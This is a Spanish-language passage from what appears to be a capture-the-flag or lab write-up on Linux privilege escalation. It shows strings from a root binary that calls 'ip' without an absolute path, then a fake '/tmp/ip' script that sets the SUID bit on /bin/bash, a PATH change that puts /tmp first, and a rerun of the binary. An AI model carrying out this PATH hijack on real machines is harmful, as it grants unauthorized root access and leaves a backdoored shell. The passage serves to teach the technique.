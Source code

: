 Info:

```
.............................<CODIGO_COMPILADO>...................................
ip address
###################
^@ip a^@^@^@^@^@^@^@^@###################
hosts
###################
^@cat /etc/hosts^@^@^@###################
os info
###################
uname -a
.............................<CODIGO_COMPILADO>...................................
```

Vemos que mas o menos estamos viendo los comandos que esta utilizando, y no esta utilizando rutas `absolutas` por lo que podremos realizar la tecnica llamada `PATH hijacking/binary hijacking` con el binario `ip` en este caso.

Vamos a crear un script que ponga permisos `SUID` a la `bash` de la siguiente forma:

```shell
nano /tmp/ip

#Dentro del nano
#!/bin/bash

chmod u+s /bin/bash
echo "Permisos establecidos de forma correcta!"
```

Lo guardamos y ahora vamos a modificar el `PATH` para que cuando lo ejecutemos es ejecute como `root` el script llamado `ip` por lo que tendremos que poner que primero vaya a la ruta `/tmp` para que funcione:

```shell
chmod +x /tmp/ip
export PATH=/tmp:$PATH
```

Ahora si vemos el `PATH`:

```shell
echo $PATH
```

Info:

```
/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

Veremos que ha funcionado, por lo que vamos a ejecutar de nuevo el `binario`:

```shell
/usr/bin/getinfo
```

